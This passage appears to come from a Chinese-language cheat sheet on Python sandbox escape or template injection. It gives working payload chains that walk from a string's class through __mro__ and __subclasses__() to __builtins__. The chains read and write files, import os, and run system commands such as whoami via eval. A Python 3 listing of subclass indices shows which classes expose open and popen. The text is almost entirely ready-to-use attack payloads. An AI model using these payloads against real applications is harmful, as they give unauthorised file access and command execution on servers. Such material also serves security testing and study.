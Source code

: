 
通过 `__builtins__` 读写文件, 导入模块, 执行代码

```python
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('D:/test.txt').read()
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('D:/test.txt').read()

''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['file']('D:/a.txt','w').write('hello')
''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['open']('D:/a.txt','w').write('hello')

''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['__import__']('os').system('whoami')

 ''.__class__.__mro__[-1].__subclasses__()[59].__init__.__globals__['__builtins__']['eval']('__import__("os").system("whoami")')
```

另外, Python2 可以直接通过 `__subclasses__()` 下的 file 读写文件

```python
''.__class__.__mro__[-1].__subclasses__()[40]('d:/test.txt').read()
```

### Python 3

回显如下

```python
__builtins__ 100 <class '_frozen_importlib._ModuleLock'>
__builtins__ 101 <class '_frozen_importlib._DummyModuleLock'>
__builtins__ 102 <class '_frozen_importlib._ModuleLockManager'>
__builtins__ 103 <class '_frozen_importlib.ModuleSpec'>
__builtins__ 119 <class '_frozen_importlib_external.FileLoader'>
__builtins__ 120 <class '_frozen_importlib_external._NamespacePath'>
__builtins__ 121 <class '_frozen_importlib_external._NamespaceLoader'>
__builtins__ 123 <class '_frozen_importlib_external.FileFinder'>
open 125 <class 'codecs.IncrementalEncoder'>
__builtins__ 125 <class 'codecs.IncrementalEncoder'>
open 126 <class 'codecs.IncrementalDecoder'>
__builtins__ 126 <class 'codecs.IncrementalDecoder'>
open 127 <class 'codecs.StreamReaderWriter'>
__builtins__ 127 <class 'codecs.StreamReaderWriter'>
open 128 <class 'codecs.StreamRecoder'>
__builtins__ 128 <class 'codecs.StreamRecoder'>
open 143 <class 'os._wrap_close'>
popen 143 <class 'os._wrap_close'>
__builtins__ 143 <class 'os._wrap_close'>
open 144 <class 'os._AddedDllDirectory'>
popen 144 <class 'os._AddedDllDirectory'>
__builtins__ 144 <class 'os._AddedDllDirectory'>
__builtins__ 145 <class '_sitebuiltins.Quitter'>
__builtins__ 146 <class '_sitebuiltins._Printer'>
__builtins__ 148 <class 'types.DynamicClassAttribute'>
__builtins__ 149 <class 'types._GeneratorWrapper'>
__builtins__ 150 <class 'warnings.WarningMessage'>
__builtins__ 151 <class 'warnings.catch_warnings'>
__builtins__ 174 <class 'operator.attrgetter'>
__builtins__ 175 <class 'operator.itemgetter'>
__builtins__ 176 <class 'operator.methodcaller'>
__builtins__ 180 <class 'reprlib.Repr'>
__builtins__ 191 <class 'functools.partialmethod'>
__builtins__ 192 <class 'functools.singledispatchmethod'>
__builtins__ 193 <class 'functools.cached_property'>
```